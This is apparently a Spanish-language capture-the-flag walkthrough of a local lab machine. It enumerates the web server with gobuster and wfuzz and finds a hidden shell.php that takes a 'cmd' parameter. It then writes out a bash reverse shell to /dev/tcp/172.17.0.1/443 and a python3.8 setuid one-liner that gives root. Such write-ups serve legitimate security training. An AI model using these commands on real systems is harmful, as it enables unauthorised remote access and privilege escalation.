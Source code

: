 nmap: 22,80

![image](https://github.com/user-attachments/assets/fa1ec9f2-3652-4885-b2da-5f55617289e1)

entramos a la pagina y tenemos esto

![image](https://github.com/user-attachments/assets/c08b40e7-b159-485b-8b84-a1efb6d64a9d)

y en el código fuente esto:

![image](https://github.com/user-attachments/assets/fa52b375-21db-4e37-ba73-7f084d8819ad)

ahí muestra una "shell.php" y un "acces panel", hacemos un gobuster 

      gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,py,txt

vamos consiguiendo diferentes resultados

un backup.txt

![image](https://github.com/user-attachments/assets/cc37c0ec-1178-459b-9fb0-b2beaa6972cf)

un hidden

![image](https://github.com/user-attachments/assets/8c6d7b64-cdc8-41c0-811e-0958c74cf18f)

probamos el hidden con el shell.php que nos mostro el código fuente

![image](https://github.com/user-attachments/assets/5dd5347d-f21e-4cd5-8272-344c9ecb92a5)

pero no nos muestra nada, pero como es una shell.php vamos a probar si directorios extras comunes como un "?file" o "?cmd", de no ser así lanzamos este comando

     wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt "http://172.17.0.2/hidden/.shell.php?FUZZ=id"

pero funciona con el "cmd"

![image](https://github.com/user-attachments/assets/50acadca-4f51-4466-b7f4-c1c2d14e4961)

así que podemos lanzar una bash y dejar el terminal en escucha

    bash -c 'bash -i>& /dev/tcp/172.17.0.1/443 0>&1'

tenemos esta pero no funciona así que la podemos URL encodear https://www.urlencoder.org/

y obtenemos la conexión

![image](https://github.com/user-attachments/assets/c74fd070-2629-4a38-ad66-f5671360fa6a)

ahora escalamos a root, encontramos esto

![[escalada 1.png]]

igual encontramos esto

![[cat1.png]]

python 3.8, así que podemos lanzar este comando para ser root

     python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'

![[rooot.png]]

y somos root! 
